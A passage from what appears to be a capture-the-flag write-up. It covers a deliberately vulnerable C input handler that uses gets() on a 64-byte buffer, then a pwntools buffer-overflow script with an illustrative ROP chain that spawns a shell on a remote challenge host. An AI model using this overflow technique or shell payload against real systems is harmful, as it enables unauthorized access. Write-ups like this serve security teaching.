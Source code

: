 ```python
# Find encrypted string section (at offset 0x2000)
encrypted_section = data[0x2000:0x2100]
decrypted_strings = decrypt_strings(encrypted_section)
print("Decrypted strings:", decrypted_strings)
```

## Vulnerability Discovery

After bypassing the protection mechanisms and decrypting strings, we discover the main vulnerability in the input handling function:

```c
void process_input() {
    char buffer[64];
    char *flag_location = get_flag_location();  // Decrypted string
    
    printf("Enter your input: ");
    gets(buffer);  // Vulnerable function - no bounds checking!
    
    if (strcmp(buffer, "secret_password") == 0) {
        printf("Access granted!\n");
        system("cat /flag.txt");
    } else {
        printf("Access denied.\n");
    }
}
```

## Exploitation

### Buffer Overflow Attack

The `gets()` function allows us to overflow the 64-byte buffer:

```python
#!/usr/bin/env python3
import struct
from pwn import *

# Connect to challenge
p = remote('target_ip', 1337)

# Craft payload
buffer_size = 64
padding = b'A' * buffer_size

# ARM64 ROP chain (example addresses)
rop_chain = [
    0x400000 + 0x1500,  # Address of system() call
    0x400000 + 0x2000,  # Address of "/bin/sh" string
]

# Pack addresses for ARM64 (8 bytes each)
payload = padding + b''.join(struct.pack('<Q', addr) for addr in rop_chain)

# Send payload
p.sendline(payload)

# Get flag
p.interactive()
```
